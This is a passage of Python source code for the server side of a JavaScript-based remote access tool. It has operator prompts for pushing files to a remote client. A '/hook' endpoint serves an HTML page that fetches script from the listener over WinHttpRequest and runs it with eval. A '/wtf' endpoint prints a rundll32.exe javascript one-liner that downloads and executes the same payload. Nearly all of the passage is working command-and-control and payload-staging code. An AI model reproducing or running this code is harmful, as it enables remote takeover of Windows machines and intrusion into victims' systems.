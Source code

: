     

    elif "/uploadpath" == self.path:
      lpath = raw_input(red("$")+white("(")+blue("Enter Full Path for Local File to Upload")+white(")")+red(">")+white(" "))
      myHandler.upload_path = lpath
      caution("Setting local upload path to: %s" % myHandler.upload_path)
      destination_path = raw_input(red("$")+white("(")+blue("Enter Remote Path to Write Uploaded Content")+white(")")+red(">")+white(" "))
      response_message = destination_path.strip()

    elif "/uploaddata" == self.path:
      response_message = open(myHandler.upload_path, 'rb+').read()
      myHandler.upload_path = ""

    elif "/hook" == self.path:
      good("Hooking Client: %s" % str(self.client_address[0]))
      content_type = "text/html"
      response_message = jsrat()
      response_message = """<!doctype html public "-//w3c//dtd html 4.0 transitional//en">
<html>
  <head>
   <title> new document </title>
   <meta name="generator" content="editplus">
   <meta name="author" content="">
   <meta name="keywords" content="">
   <meta name="description" content="">
  </head>
  <body>
   <script language="javascript" type="text/javascript">
      h=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
      h.Open("GET","http://"""+bind_ip+":"+str(listener_port)+srv_url+"""",false);
      h.Send();
      B=h.ResponseText;
      eval(B);
    </script>
  </body>
</html>"""

    elif "/wtf" == self.path:
      good("Client Command Query from: %s" % str(self.client_address[0]))
      response_message = """
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://"""+bind_ip+":"+str(listener_port)+srv_url+"""",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}"""
      print cyan(response_message + "\n")

    # Send the built response back to client
    self.send_response(200)
    self.send_header('Content-type',content_type)
    self.end_headers()
    self.wfile.write(response_message)
